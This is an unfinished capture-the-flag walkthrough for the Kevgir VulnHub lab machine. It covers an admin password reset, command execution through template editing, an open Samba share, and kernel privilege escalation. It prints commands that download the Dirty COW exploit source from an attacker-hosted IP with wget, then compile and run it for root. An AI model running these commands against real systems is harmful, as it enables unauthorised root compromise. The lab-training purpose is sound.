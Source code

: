### iNSERT image
Reading through the log we find that `#15` holds something useful. A  vulnerability exists that allows users to change admin password;

### Insert image

We reset the password and log in;

Once we in as admin. We look for a php file we can edit. To do this;
1. go to Extensions
2. Template Manager
3. Selec the active template
4. Edit the template and save changers.

Once this is done we can execute commands through  the browser.
As usual we'll use Burp to intercept and execute the payload;

## Other interests
This box is also running `Samba` and we can see from the smb enum script, we can Read/Write into the $IPC Service

```
Host script results:                                                      
| smb-enum-shares:                                                   
|   account_used: guest                                                   
|   IPC$:                                                                 
|     Type: STYPE_IPC_HIDDEN                                              
|     Comment: IPC Service (canyoupwnme server (Samba, Ubuntu))           
|     Users: 1                                                            
|     Max Users: <unlimited>                                              
|     Path: C:\tmp                                                        
|     Anonymous access: READ/WRITE                                        
|     Current user access: READ/WRITE


```

## Post Exploitation

```
uname -a
Linux canyoupwnme 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux
```
From this kernel version we can attempt a kernel exploit.
It may crash the system but we'll still try it.
We'll attempt to use the dirtycow exploit.
####Add link to dirtycow
```
wget http://192.168.175.132:1234/cowroot.c -O /tmp/cowroot.c
Edit it for either 32bit or 64bit.


python -c "import pty; pty.spawn('/bin/bash');"
gcc -pthread cowroot.c -o cowroot && chmod 744 cowroot && ./cowroot asdf
Once you get a shell enter the following command. chap chap
echo 0 > /proc/sys/vm/dirty_writeback_centisecs

```
Other way is to use the suid bit set.

[1]: https://www.vulnhub.com/entry/kevgir-1,137/
[2]: https://twitter.com/@canyoupwnme
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
